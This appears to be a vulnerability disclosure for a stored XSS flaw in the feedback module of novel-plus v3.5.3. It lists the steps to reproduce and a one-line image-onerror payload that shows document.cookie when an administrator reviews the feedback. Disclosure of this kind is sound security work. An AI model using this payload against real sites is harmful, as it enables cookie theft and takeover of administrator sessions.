 ## Information

```c
Exploit Title:Novel-plus-install-v3.5.3-Storage XSS
Exploit date:01.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://github.com/201206030/novel-plus
Affect Version:novel-plus-install-v3.5.3
Description:Novell plus feedback message function module has storage XSS, which can be used by attackers to steal users' cookie information.
```

## How to Exploit

Step 1：register a user

Step 2：Sign in

Step 3：Access feedback message function module and insert malicious XSS

```
simpleTest<img src=x onerror=alert(document.cookie);>
```

![xss](img/xss.png)

![xss2](img/xss2.png)

Malicious XSS code will be successfully triggered when there is management check feedback

## Code Analysis

novel-plus-3.5.3\novel-front\src\main\resources\templates\user\feedback.html

![deal](img/deal.png)

novel-plus-3.5.3\novel-front\src\main\java\com\java2nb\novel\service\impl\UserServiceImpl.java

![feedback](img/feedback.png)

![feedback2](img/feedback2.png)

## Reference

https://github.com/201206030/novel-plus
